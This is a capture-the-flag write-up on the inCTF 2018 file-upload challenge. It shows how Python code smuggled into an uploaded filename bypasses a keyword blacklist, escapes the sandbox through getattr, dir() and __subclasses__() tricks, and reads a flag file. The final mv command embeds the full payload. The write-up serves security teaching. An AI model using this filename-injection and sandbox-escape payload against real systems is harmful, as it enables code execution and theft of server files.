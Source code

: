 # The Most Secure File Uploader

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/1.png)

54/306 = 18% of the teams solved this challenge.

## Phase: Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/2.png)

Here we can see it's a file upload. File uploaders are often insecure, let's upload something.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/6.png)
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/3.png)

We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/4.png)


Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined

`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax

`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax

`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax

`__debug__.png` => Traceback (most recent call last): File "", line 1,
in AttributeError: 'bool' object has no attribute 'png'

`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'

`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/5.png)


### Blacklist
As we try upload some known python names, like __class__.png

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/7.png)

...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

`subprocesses|os|import|builtins|eval|locals|class|;|file`

and the file must end with a .png.


## Phase: Exploit - Python sandbox escape
From the reconnisance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

`().__class__.__base__.__subclasses__()[40]("flag.txt").read()`

Here is the line we want to execute, but from the reco phase we know that `__class__` and `__subclasses__` is blacklisted.
To circumvent this we need to figure out another way to run `__class__` and `__subclasses__`  without actually typing it.

```
>>> dir([])[1]
'__class__'
```

Okay, we can now write the `__class__` without directly typing it to bypass the blacklist.

```
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `[].__class__`.

Okay so next we want to append `__base__`.

```
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append `__subclassses__`, but we know class is blacklisted so we have to bypass it somehow.

```
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the `__subclasses__`. Now we just have to write the same command without using class.

```
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```
>>> dir(().__class__.__base__.__class__)[34]
'__subclasses__'
```

If we combine what we have so far:
```
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the `__subclasses__` function.

```
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>>
```
Let's combine our payload and upload it to get the flag.
```mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"```


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/8.png)

